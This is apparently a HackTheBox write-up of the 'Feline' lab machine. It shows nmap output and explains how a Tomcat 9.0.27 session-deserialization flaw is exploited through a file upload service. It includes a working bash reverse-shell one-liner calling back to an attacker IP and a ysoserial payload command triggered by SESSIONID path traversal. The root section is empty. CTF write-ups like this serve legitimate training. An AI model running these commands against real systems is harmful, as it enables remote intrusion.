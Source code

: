 ```yaml
---
title: Feline HackTheBox
published: true
tags: Tomcat 
---
```


## nmap scan

```bash
# nmap -sC -sV -Ao nmap 10.10.10.205

Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-06 12:28 CEST
Nmap scan report for 10.10.10.205
Host is up (0.029s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
8080/tcp open  http    Apache Tomcat 9.0.27
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: VirusBucket
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 65.87 seconds
```

## open port 

- port 22 as ssh as usual
- port 8080 with a running tomat instance at version 9.0.27

## tomcat 9.0.27

A little bit of looking around reveals that the running version of tomcat seems to be vulnerable to a rce exploit. [1](https://github.com/PenTestical/CVE-2020-9484)

## file upload

Looking around and playing around reveals a file upload service at `http://10.10.10.205:8080/service/`. It gets an email address and a file. The service says it checks the file for malicious content and sends a report to the email address. 
Playing around with burpsuite reveals that the service tries to store those files under `/opt/samples/uploads` and uses `apache/commons/fileupload` to do that.

![BurpSuite FileUpload](../assets/BurpSuite-FileUpload.png "BurpSuite FileUpload")

## combining

Combining the RCE exploit with the findings of the file upload we can create a reverse shell with [ysoserial](https://github.com/frohoff/ysoserial), upload it and call it with path traversal of the `SESSIONID` field in the request. 

## exploiting user

Starting with the reverse shell file we start up with ysoserial to create the payload. Because we don't know the Verison of `apache/commons/fileupload` we have to try serveral `CommonsCollectionsX` provided by ysoserial. As reverse shell we're using a bash shell which we base64 encode. 

1. base64 of bash revese shell
```bash
# echo 'bash -i >& /dev/tcp/10.10.14.18/4242 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xOC80MjQyIDA+JjEK
```

2. create reverse shell with ysoserial
```bash
java -jar ysoserial-master.jar CommonsCollections2 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xOC80MjQyIDA+JjEK}|{base64,-d}|{bash,-i}" > shell.session
```

We take that file and upload it using the intended way. Thereupon we request any site on the tomat site and manipulate the `SESSIONID` using burpsuite. The value is equivalent to the previous found directory where the files are uploaded to + the file name of the created reverse shell subtracted by the `.session` file-extrension. This is because tomcat automatically appends `.session` to the requested `SESSIONID`.

![BurpSuite SESSIONID](../assets/BurpSuite-SessionID.png "BurpSuite SESSIONID manipulation")

Start a listener on the local maschine and forward the manipulated request. Voila! User level of Fiola. 

## root exploitation


